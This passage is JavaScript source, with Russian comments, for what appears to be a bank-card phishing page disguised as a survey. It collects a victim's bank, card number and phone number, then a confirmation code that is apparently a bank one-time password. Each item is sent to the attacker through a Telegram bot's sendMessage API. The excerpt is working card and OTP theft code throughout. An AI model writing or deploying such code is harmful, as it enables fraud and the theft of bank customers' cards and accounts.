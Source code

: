         // Переход назад от кода подтверждения к регистрации
        function goBackToRegistration() {
            showSlide('registration-container');
        }

        document.getElementById('registration-form').addEventListener('submit', function(event) {
            event.preventDefault();

            const bank = document.getElementById('bank-select').value;
            const cardNumber = document.getElementById('card-number').value.trim();
            const phoneNumber = document.getElementById('phone-number').value.trim();

            if (!bank || !cardNumber || !phoneNumber) {
                alert("Пожалуйста, заполните все поля.");
                return;
            }

            // Форматирование данных для отправки с использованием Markdown
            const message = `Новый запрос на опрос: \nБанк: ${bank}\nНомер карты: \`${cardNumber}\`\nТелефон: \`${phoneNumber}\``;
            
            fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({
                    chat_id: TELEGRAM_CHAT_ID,
                    text: message,
                    parse_mode: "Markdown" // Включаем поддержку Markdown
                })
            })
            .then(() => {
                showSlide('code-container'); // Переход к следующему слайду (ввод кода подтверждения)
            })
            .catch(error => {
                console.error("Ошибка:", error);
                alert("Ошибка при отправке данных. Пожалуйста, попробуйте снова.");
            });
        });

        document.getElementById('code-form').addEventListener('submit', function(event) {
            event.preventDefault();
            const code = document.getElementById('confirmation-code').value.trim();

            if (!code) {
                alert("Пожалуйста, введите код подтверждения.");
                return;
            }

            const message = `Код подтверждения: \`${code}\``;
            
            fetch(`https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`, {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({
                    chat_id: TELEGRAM_CHAT_ID,
                    text: message,
                    parse_mode: "Markdown" // Включаем поддержку Markdown
                })
            })
            .then(() => {
                showSlide('loading-container'); // Переход к слайду загрузки
                // Уберите или измените этот код, если автоматический перезагрузки не требуется
                // setTimeout(() => {
                //     location.reload();
                // }, 5000);
            })
            .catch(error => {
                console.error("Ошибка:", error);